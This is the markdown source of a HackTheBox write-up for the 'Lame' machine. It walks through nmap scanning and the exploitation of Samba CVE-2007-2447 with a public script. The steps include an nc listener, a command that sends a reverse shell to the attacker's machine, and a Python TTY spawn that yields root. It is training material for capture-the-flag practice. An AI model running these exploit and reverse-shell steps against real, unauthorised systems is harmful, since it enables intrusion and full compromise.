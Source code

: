```yaml
---
title: "Lame"
date: 2024-09-02
draft: false
summary: "Writeup for Lame HackTheBox challenge."
tags: ["linux", "rce", "smb"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/lame/cover.webp"
  caption: "Lame HackTheBox Challenge"
  alt: "Lame cover"
platform: "HackTheBox"
---
```


Lame is a beginner level machine, requiring only one exploit to obtain root access. It contains 2 flags - `user.txt` and `root.txt`
<!--more-->
To access the machine, click on the link given below:
- https://www.hackthebox.com/machines/lame

## Reconnaissance

I started by performing a service version and default script scan on the target using **nmap**.

```shell
nmap TARGET -oN lame.nmap -sV -sC
```

| **Port** | **Service** |
| -------- | ----------- |
| 21       | FTP         |
| 22       | SSH         |
| 139      | smb         |
| 445      | smb         |

![](https://cdn.ziomsec.com/lame/1.webp)
![](https://cdn.ziomsec.com/lame/2.webp)

## Initial Foothold

I searched for exploits related to the FTP version found using **nmap** but did not find anything useful. I then switched to looking for exploits related to the **SMB** version and found a command execution CVE.

![](https://cdn.ziomsec.com/lame/3.webp)

Hence, I looked for ways to exploit the CVE and found a tool on GitHub: 
- https://github.com/amriunix/CVE-2007-2447

I downloaded the script and ran it against the target to get a reverse shell:

![](https://cdn.ziomsec.com/lame/4.webp)

```bash
rlwrap nc -lnvp 8080
```

```shell
python usermap_script.py TARGET 139 KALI 8080
```

![](https://cdn.ziomsec.com/lame/5.webp)

![](https://cdn.ziomsec.com/lame/6.webp)

I directly got **root** access ! I then spawned a **TTY** shell for better usability.

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://cdn.ziomsec.com/lame/7.webp)

Finally, I looked into the directories in */home* and found the user flag in */home/makis*.

![](https://cdn.ziomsec.com/lame/8.webp)

Since I was a root user, I also captured the root flag from */root*

![](https://cdn.ziomsec.com/lame/9.webp)

## Closure

Here's how I pwned the machine:
- exploited the vulnerable SMB version and got root shell.
- Captured the user flag from */home/makis*.
- Captured the root flag from */root*.

That's it from my side :) Happy hacking!

---

